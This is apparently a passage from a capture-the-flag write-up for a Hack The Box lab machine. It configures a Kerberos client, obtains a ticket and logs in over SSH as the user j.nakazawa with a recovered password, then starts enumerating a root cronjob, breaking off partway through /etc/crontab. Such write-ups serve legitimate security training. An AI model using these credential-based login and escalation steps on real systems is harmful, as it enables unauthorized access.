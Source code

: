 First we install `krb5-user`.

```php
$ sudo apt install krb5-user
```

Then we update our krb5.conf to contain the correct realm and kdc address.

`/etc/krb5.conf`
```php
[libdefaults]
    default_realm = REALCORP.HTB

[realms]
    REALCORP.HTB = {
    kdc = 10.129.162.100
    }
```

We also make sure our `/etc/hosts` contains this entry for our target ip.

```php
10.129.162.100 srv01.realcorp.htb
```

Now we can create the ticket using the password `sJB}RM>6Z~64_`, confirm everything went well, log into the machine as j.nakazawa and grab the user flag.

```php
$ kinit j.nakazawa
Password for j.nakazawa@REALCORP.HTB:
$ klist
Ticket cache: FILE:/tmp/krb5cc_1000
Default principal: j.nakazawa@REALCORP.HTB

Valid starting       Expires              Service principal
06/16/2021 06:50:19  06/17/2021 06:50:19  krbtgt/REALCORP.HTB@REALCORP.HTB
$ ssh j.nakazawa@srv01.realcorp.htb
Activate the web console with: systemctl enable --now cockpit.socket

Last login: Wed Jun 16 07:48:48 2021 from 10.10.14.86
[j.nakazawa@srv01 ~]$ wc -c user.txt 
33 user.txt               
```


# Root

## Crontab and .k5login

Enumerating basic things on the machine, we find a cronjob for the admin user, which executes a `log_backup.sh` script. 

```py
[j.nakazawa@srv01 ~]$ cat /etc/crontab 
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root

# For details see man 4 crontabs

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
```
